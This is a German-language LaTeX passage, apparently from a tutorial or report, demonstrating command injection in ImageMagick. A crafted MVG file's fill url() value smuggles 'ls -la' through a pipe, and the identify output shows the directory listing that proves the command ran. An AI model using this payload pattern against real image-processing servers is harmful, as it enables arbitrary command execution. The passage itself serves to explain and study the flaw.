 \subsection{Erstes Beispiel: Ausgabe der Dateien im aktuellen Ordner}\label{subsec:erstes-beispiel:-ausgabe-der-dateien-im-aktuellen-ordner}

Es wird eine MVG Datei erstellt und folgend befüllt.

\vspace{5mm}

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei erstellen,label={lst:lstlisting}]
> vim test1.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}


Besonders wichtig ist hier Zeile vier.
In der url() Methode, wird per Pipe ein zweiter Befehl, nämlich ls -la mitgegeben, welcher die Dateien des aktuellen Verzeichnis auflistet.\\

\newpage

Per identify wird nun im Namen des aktuell angemeldeten Users folgende Ausgabe erzeugt:

\begin{lstlisting}[language=Bash, caption=Beispiel 1 - MVG Datei identify,label={lst:lstlisting}]
> identify test1.mvg
total 16
drwxr-xr-x 2 root root 4096 Dec 16 08:21 .
drwx------ 8 root root 4096 Dec 16 08:20 ..
-rw-r--r-- 1 root root  144 Dec 16 08:21 test1.mvg
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|ls "-la' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
test1.mvg MVG 640x480 640x480+0+0 16-bit sRGB 144B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
\end{lstlisting}
\vspace{5mm}


⇒ Das eigentliche identifizieren des Bildes schlägt zwar fehl, es kann aber gut gesehen werden, dass vorher im Hintergrund der hinterlegte Command ausgeführt wurde.
